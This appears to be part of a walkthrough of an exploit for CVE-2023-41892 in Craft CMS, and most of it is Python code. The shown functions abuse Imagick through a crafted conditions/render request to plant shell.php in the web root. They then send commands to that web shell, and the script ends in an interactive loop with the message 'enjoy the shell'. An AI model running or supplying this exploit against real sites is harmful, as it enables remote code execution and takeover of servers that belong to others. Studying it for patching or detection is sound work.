 Use Imagick to move the `shell.php` to DOCUMENT_ROOT.

```python
def trigerImagick(tmpDir):
    
    data = {
        "action": "conditions/render",
        "configObject[class]": "craft\elements\conditions\ElementCondition",
        "config": '{"name":"configObject","as ":{"class":"Imagick", "__construct()":{"files":"vid:msl:' + tmpDir + r'/php*"}}}'
    }
    response = requests.post(url, headers=headers, data=data)   
```

Request the `shell.php` with command for remote execution and print command response.

```python
def shell(cmd):
    response = requests.get(url + "/cpresources/shell.php", params={"cmd": cmd})
    match = re.search(r'caption:(.*?)CAPTION', response.text, re.DOTALL)

    if match:
        extracted_text = match.group(1).strip()
        print(extracted_text)
    else:
        return None
    return extracted_text
```

Main function that will check that user provided web page URL. And then call the above functions in order.

```python
if __name__ == "__main__":
    if(len(sys.argv) != 2):
        print("Usage: python CVE-2023-41892.py <url>")
        exit()
    else:
        url = sys.argv[1]
        print("[-] Get temporary folder and document root ...")
        upload_tmp_dir, documentRoot = getTmpUploadDirAndDocumentRoot()
        tmpDir = "/tmp" if "no value" in upload_tmp_dir else upload_tmp_dir
        print("[-] Write payload to temporary file ...")
        try:
            writePayloadToTempFile(documentRoot)
        except requests.exceptions.ConnectionError as e:
            print("[-] Crash the php process and write temp file successfully")

        print("[-] Trigger imagick to write shell ...")
        try:
            trigerImagick(tmpDir)
        except:
            pass

        print("[-] Done, enjoy the shell")
        while True:
            cmd = input("$ ")
            shell(cmd)```
```
